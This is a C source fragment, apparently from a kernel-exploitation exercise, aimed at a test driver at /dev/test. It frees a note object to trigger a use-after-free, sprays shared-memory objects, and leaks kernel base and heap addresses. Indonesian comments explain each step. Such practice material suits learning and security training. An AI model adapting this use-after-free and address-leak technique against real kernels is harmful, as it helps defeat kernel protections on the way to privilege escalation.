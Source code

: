 ```c

int fd;
struct {
  int size;
  char *note;
} cmd;
int new(int size) {
  cmd.size = size; cmd.note = NULL;
  return ioctl(fd, 0xdead0001, &cmd);
}
int delete(void) {
  cmd.size = 0; cmd.note = NULL;
  return ioctl(fd, 0xdead0002, &cmd);
}
int store(int size, void *note) {
  cmd.size = size; cmd.note = note;
  return ioctl(fd, 0xdead0003, &cmd);
}
int load(int size, void *note) {
  cmd.size = size; cmd.note = note;
  return ioctl(fd, 0xdead0004, &cmd);
}

void stop(void) {
  puts("Press enter to continue...");
  getchar();
}

int main() {
  unsigned long buf[0x200];
  memset(buf, 0, 0x1000);

  fd = open("/dev/test", O_RDWR);
  if (fd < 0) {
    perror("/dev/test");
    return 1;
  }

  new(0x20); //mengalokasikan memory dengan ukuran
  delete(); //hapus untuk memicu UAF

  /* leak kbase */
  int shmid;
  if ((shmid = shmget(IPC_PRIVATE, 100, 0600)) == -1) {
    perror("shmget");
    return 1;
  }
  char *shmaddr = shmat(shmid, NULL, 0);
  if (shmaddr == (void*)-1) {
    perror("shmat");
    return 1;
  }
  load(0x20, (void*)buf);
  for(int i = 0; i < 0x5; i++) {
    printf("0x%04x: 0x%016lx\n", i * 8, buf[i]);
  }
  unsigned long kheap = buf[2];
  unsigned long kbase = buf[1] - 0x1292ae0;
  printf("[+] kbase = 0x%016lx\n", kbase);
  printf("[+] kheap = 0x%016lx\n", kheap);

  return 0;
}
```